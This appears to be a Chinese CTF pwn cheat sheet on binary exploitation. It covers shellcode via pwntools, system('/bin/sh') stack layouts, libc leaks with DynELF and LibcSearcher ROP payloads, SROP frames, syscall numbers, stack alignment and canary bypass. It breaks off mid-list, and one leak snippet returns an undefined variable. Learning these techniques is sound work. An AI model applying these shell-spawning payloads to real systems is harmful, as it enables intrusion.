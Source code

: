 ## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

在溢出后，如果调用的是函数的plt地址或者got地址，则需要在栈中存放返回地址，栈中的数据格式如下：
```
system_plt + 返回地址 + 参数
```

如果程序中有直接call system地方，则不需要返回地址，可以直接在栈中放参数，栈中的数据格式如下：
```
call_system + 参数
```

### 一句话getshell

one_gadget

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |  \x0A  |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rbx 参数1
rcx 参数2
rdx 参数3
```

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)

## 0x007-Canary绕过

Canary特性：

1. 在同一个程序里，每个函数中的Canary值是一样的，也就是说可以在一个函数中泄漏Canary值，然后在另一个函数中使用Canary值完成栈溢出漏洞利用；
2. Canary最后两位一定是 "\x00"，也就是说如果函数中存在栈溢出，则可以将Canary的最后两位覆盖掉，那么就可以利用puts等函数将Canary的值打印出来；